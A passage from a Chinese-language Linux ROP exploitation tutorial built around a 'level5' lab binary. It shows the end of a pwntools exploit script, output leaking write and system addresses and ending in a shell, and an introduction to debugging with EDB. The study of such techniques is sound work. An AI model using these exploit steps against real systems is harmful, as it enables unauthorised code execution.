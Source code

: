 ``` python

sleep(1)
p.send(payload3)

p.interactive()
```
要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。最终执行结果如下：  
```
$ python exp7.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
off_system_addr: 0xa1c40

#############sending payload1#############

write_addr: 0x7f79d5779370
system_addr: 0x7f79d56d7730

#############sending payload2#############


#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x05 EDB调试器

我们在学习Linux ROP的过程中一定少不了调试这一环节，虽然gdb的功能很强大，但命令行界面对很多人来说并不友好。很多学习Windows调试的人用惯了ollydbg再接触gdb的话总感觉很难上手。其实在linux下也有类似于ollydbg的调试工具，那就是EDB-debugger。这里给出edb的下载地址，具体的编译请参考readme：  

EDB-debugger https://github.com/eteran/edb-debugger  
下面我们就拿level5做例子来讲解一下如何使用EDB。首先是挂载(attach)进程和设置断点(break point)。我们知道当我们在用exp.py脚本进行攻击的时候，脚本会一直运行，我们并没有足够的时间进行挂载操作。想要进行调试的话我们需要让脚本暂停一下，随后再进行挂载。暂停的方法很简单，只需要在脚本中加一句”raw_input()”即可。比如说我们想在发送payload1之前暂停一下脚本，只需要这样：  
```
ss = raw_input()
print "\n#############sending payload1#############\n"
p.send(payload1)
```
这样的话，当脚本运行起来后，就会在raw_input()这一行停下来，等待用户输入。这时候我们就可以启动EDB进行挂载了。  

![](../pictures/linuxrop2.jpg)  
